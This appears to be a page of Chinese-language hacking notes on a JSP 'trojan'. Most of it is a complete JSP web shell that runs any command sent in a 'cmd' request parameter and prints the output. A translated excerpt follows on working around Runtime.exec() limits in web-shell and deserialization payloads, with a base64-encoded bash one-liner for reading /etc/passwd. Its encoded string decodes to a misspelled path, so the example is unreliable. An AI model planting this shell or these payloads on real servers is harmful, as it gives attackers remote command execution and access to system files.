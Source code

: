 # jsp 马

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
    if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p;
        if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
            p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
        }
        else{
                p = Runtime.getRuntime().exec(request.getParameter("cmd"));
            }
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
        }
    }
%>
</pre>
</BODY></HTML>
```

> [Runtime.getRuntime().exec踩坑总结（/bin/sh -c、异常流重定向）_51CTO博客_Runtime.getRuntime().exec()](https://blog.51cto.com/stefanxfy/4722238#:~:text=Runtime.getRuntime ().exec踩坑总结（%2Fbin%2Fsh -c、异常流重定向） 1 一、前言 想通过java执行shell命令，一定会用到 Runtime.getRuntime ().exec,踩坑之后本人最常用的是传一个字符串数组的方法，其他传环境变量、传一个File文件的没用过暂且不讨论。 ... 3 三、Process用于控制进程的类 java.lang.Runtime%23exec 返回一个Process类，可用于控制命令执行的进程，比如获取标准输出流、标准输入流及异常流，获取该进程的执行状态，销毁该进程等。 如下示例获取xxx进程的pid： )

> [java.lang.Runtime.exec() Payload Workarounds - @Jackson_T (bewhale.github.io)](https://bewhale.github.io/tools/encode.html)

偶尔有时命令执行有效负载`Runtime.getRuntime().exec()`失败. 使用 web shells, 反序列化漏洞或其他向量时可能会发生这种情况.

有时这是因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义. 例如 `ls > dir_listing` 在shell中执行应该将当前目录的列表输出到名为的文件中 `dir_listing`. 但是在 `exec()` 函数的上下文中,该命令将被解释为获取 `>` 和 `dir_listing` 目录.

其他时候,其中包含空格的参数会被StringTokenizer类破坏.该类将空格分割为命令字符串. 那样的东西 `ls "My Directory"` 会被解释为 `ls '"My' 'Directory"'`.

在Base64编码的帮助下, 可以通过调用Bash或PowerShell再次使管道和重定向更好,并且还确保参数中没有空格.

比如将 bash 命令

```bash
cat /etc/passwd
```

转换为: 

```shell
bash -c {echo,Y2F0IC9lcnR0Yy9wYXNzd2Q=}|{base64,-d}|{bash,-i}
```




